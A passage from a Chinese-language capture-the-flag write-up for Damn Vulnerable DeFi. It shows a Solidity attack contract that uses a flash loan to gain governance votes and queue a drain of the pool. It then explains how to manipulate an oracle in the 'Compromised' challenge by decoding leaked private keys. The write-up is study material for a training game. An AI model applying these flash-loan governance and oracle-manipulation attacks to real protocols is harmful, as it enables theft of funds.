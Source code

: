 ```solidity
    function attack(uint256 amount) public {
        // call flashloan
        pool.flashLoan(IERC3156FlashBorrower(this), address(token), amount, "0x");
    }

    function onFlashLoan(
            address initiator,
            address _token,
            uint256 amount,
            uint256 fee,
            bytes calldata data
        ) external returns (bytes32){
            // queue action
            token.snapshot();
            actionId = governance.queueAction(address(pool), 0, abi.encodeWithSignature("emergencyExit(address)", owner));
            token.approve(address(pool), amount);
            return keccak256("ERC3156FlashBorrower.onFlashLoan");
        }

    function executeAction() public{
        governance.executeAction(actionId);
    }

}
```

## Challenge 7 - Compromised

### 合约

- Exchange: 提供购买（mint）和售卖(burn) DamnValuableNFT的方法，对应的价格由预言机提供
- TrustfulOracle: 可信价格预言机合约，维护着由几个可信的账号设定的nft价格，对外提供查询nft价格中位数的方法
- TrustfulOracleInitializer：用于部署TrustfulOracle合约并初始化nft价格

### 测试

- 部署TrustfulOracleInitializer合约，顺带完成TrustfulOracle合约的部署，设置初始nft价格为INITIAL_NFT_PRICE
- 部署Exchange合约，顺带完成DamnValuableNFT合约的部署，存入EXCHANGE_INITIAL_ETH_BALANCE
- 执行攻击脚本
- 期望Exchange合约中的余额为0，player余额为EXCHANGE_INITIAL_ETH_BALANCE，player不拥有nft，oracle中的nft价格中位数为INITIAL_NFT_PRICE

### 题解

通过阅读Exchange合约可以发现 `buyOne` 和 `sellOne` 所需要付的和收回的eth都是由oracle提供的，通过 `oracle.getMedianPrice()` 方法获得nft的价格

攻击的目标是获取Exchange合约中的全部eth，则可以通过低买高卖nft的方式来赚取EXCHANGE_INITIAL_ETH_BALANCE数额的eth，因此最终目标来到了操纵预言机，通过分析oracle的获取nft价格中位数的方法可以得知，只需要操纵过半的预言机就可以达到修改价格的目的
```solidity
function _computeMedianPrice(string memory symbol) private view returns (uint256) {
        uint256[] memory prices = getAllPricesForSymbol(symbol);
        LibSort.insertionSort(prices);
        if (prices.length % 2 == 0) {
            uint256 leftPrice = prices[(prices.length / 2) - 1];
            uint256 rightPrice = prices[prices.length / 2];
            return (leftPrice + rightPrice) / 2;
        } else {
            return prices[prices.length / 2];
        }
    }
```
题目中给了一段捕获到的http报文信息，合理推测这两段字符串就是对应其中两个预言机的私钥，将16进制数转成ASCII码，再通过base64解码，最终得到两个私钥